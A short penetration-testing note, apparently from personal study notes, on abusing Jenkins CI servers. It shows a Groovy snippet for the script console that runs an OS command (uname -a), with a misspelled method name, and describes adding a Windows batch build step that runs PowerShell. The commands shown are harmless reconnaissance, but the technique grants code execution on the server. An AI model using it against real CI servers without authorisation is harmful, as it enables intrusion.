 ```yaml
---
category: Uncategorized
tags: [pentest]
created: 2024-12-21

---
```

- In-house developed tools that are running in enterprise network can be abused as they are not made with security in mind.
- Eg: CI tools such as jenkins
# Jenkins
- Tools used for continuous integration (CI).
- If we have administrative access in Jenkins we can use the script console to run commands on the server.
- The script is written in Groovy script.
```groovy
def sout = new StringBuffer(), serr = new StringBuffer()
def proc = 'uname -a'.execute()
proc.consumeProcessOutput(sout,serr)
proc.wraitForOrKill(1000)
println "out > $sout err> $serr"
```
- If we don't have administrative access but have access to a user that can add or edit build steps in the build configuration, we can add a build step to run windows command.
- Configure -> Add build steps -> add "Execute Windows Batch Command" -> powershell -c "Get-ChildItem"